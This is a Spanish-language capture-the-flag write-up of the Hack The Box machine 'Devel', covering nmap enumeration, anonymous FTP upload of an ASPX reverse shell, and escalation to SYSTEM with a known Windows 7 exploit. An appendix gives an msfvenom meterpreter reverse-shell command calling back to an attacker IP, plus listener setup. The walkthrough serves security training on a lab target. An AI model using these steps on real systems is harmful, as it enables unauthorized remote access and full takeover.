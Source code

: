 ```yaml
---
layout: single
title: Devel - Hack The Box
excerpt: "Devel es una maquina windows que se explota mediante un servicio FTP que tiene subida arbitraria de archivos, por medio de esta debilidad, se logra establecer una conexión al equipo victima y ejecutar comandos, luego se logra escalar privilegios por medio de un exploit conocido basado en la versión del sistema operativo."
date: 2021-10-10
classes: wide
header:
  teaser: /assets/images/htb-writeup-devel/devel-logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
tags:
  - ftp
  - windows
  - arbitrary file upload
---
```


![](/assets/images/htb-writeup-devel/devel-logo.png)


Esta es una maquina de nivel facil segun hack the box, donde por medio de un servicio FTP se logra subir archivos que permiten ganar acceso al sistema.

## Enumeración
vamos a comenzar enumerando el sistema con nmap para descubrir puertos y servicios corriendo en dichos puertos

```
nmap -sC -sV 10.10.10.5
```

el escaneo de nmap nos reporta los puertos 21(ftp) y 80(http) abiertos

```
Nmap scan report for 10.10.10.5
Host is up (0.22s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

nmap fue capaz de identificar que el puerto 21 permite logearse con el usuario "Anonymous", el cual no se necesita contraseña para ingresar. 

# Acceso y explotación

Nos conectamos al servicio FTP
```
ftp 10.10.10.5
```
y observamos 3 archivos

![](/assets/images/htb-writeup-devel/devel1.png)


Si navegamos por el puerto 80, veremos la imagen clasica del servicio IIS de windows, sin embargo, al entrar al servicio FTP está la misma imagen (welcome.png) que nos muestra mediante el puerto 80. Por lo que una vía pontencial de explotación es intentar subir una reverse shell.

Buscando en internet "aspx reverse shell github" encontramos una que nos sirve

![](/assets/images/htb-writeup-devel/devel2.png)


por lo que la descargamos en nuestra maquina de atacante 

![](/assets/images/htb-writeup-devel/devel3.png)


y cambiamos la IP y puerto local a la que nos queremos conectar.

![](/assets/images/htb-writeup-devel/devel6.png)


ahora, nos conectamos al servicio FTP (FTP IP-VICTIMA) y ejecutamos el siguiente comando para subir nuestra shell que acabamos de descargar
```
put shell.aspx
```

una vez subida, nos tendremos que poner en escucha con netcat

![](/assets/images/htb-writeup-devel/devel7.png)


y ejecutamos el archivo que subimos desde la web

![](/assets/images/htb-writeup-devel/devel5.png)


y ya logramos ganar acceso al sistema

![](/assets/images/htb-writeup-devel/devel4.png)


# Escalación de privilegios
Una vez ganado acceso el sistema, podemos ver ante que SO nos estamos enfrentando, con el comando
```
systeminfo
```

Según la información del SO, estamos ante un Windows 7 6.1.7600

![](/assets/images/htb-writeup-devel/devel8.png)


buscando en internet un exploit para esta versión, encontramos uno, asi que vamos a probarlo

![](/assets/images/htb-writeup-devel/devel9.png)


Para ejecutar este exploit, primero necesita ser compilado, en caso de que no tengas la utilidad *mingw-w64* (la cual sirve para compilar exploits de windows en linux) puedes instalarla con el siguiente comando
```
sudo apt-get install mingw-w64
```

ahora solo queda subir el exploit mediante FTP y ejecutarlo en la maquina victima. Nota: cuando ingresemos por FTP, debemos ejecutar el comando "binary" dado que se suelen perder datos de archivos al subirlo, con este comando hacemos que se suba intacto.

![](/assets/images/htb-writeup-devel/devel10.png)


una vez subido, nos dirigimos a la ruta C:\inetpub\wwwroot y ejecutamos el exploit que acabamos de subir, y nos convertimos en el usuario **nt authority\system**

![](/assets/images/htb-writeup-devel/devel11.png)



 
# Anexos

## shell con metasploit
creamos el payload
```
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.16.6 lport=4444 -f aspx -o shell.aspx
```

nos ponemos en escucha
1. ```msfconsole```
2. ```use exploit/multi/handler```
3. ```set payload windows/meterpreter/reverse_tcp```
4. ```set lhost 10.10.16.6```
5. ```set lport 1234```
6. ```run```


## Pseudo consola para ejecución de comandos
Parrot y Kali linux traen una pseudo consola para en lenguaje aspx que nos permite ejecutar comandos, para encontrla podemos escribir el siguiente comando
```
locate cmdasp.aspx
```

este archivo lo subimos mediante FTP y tendremos ejecución de comandos, para luego establecer una reverse shell a nuestro equipo.
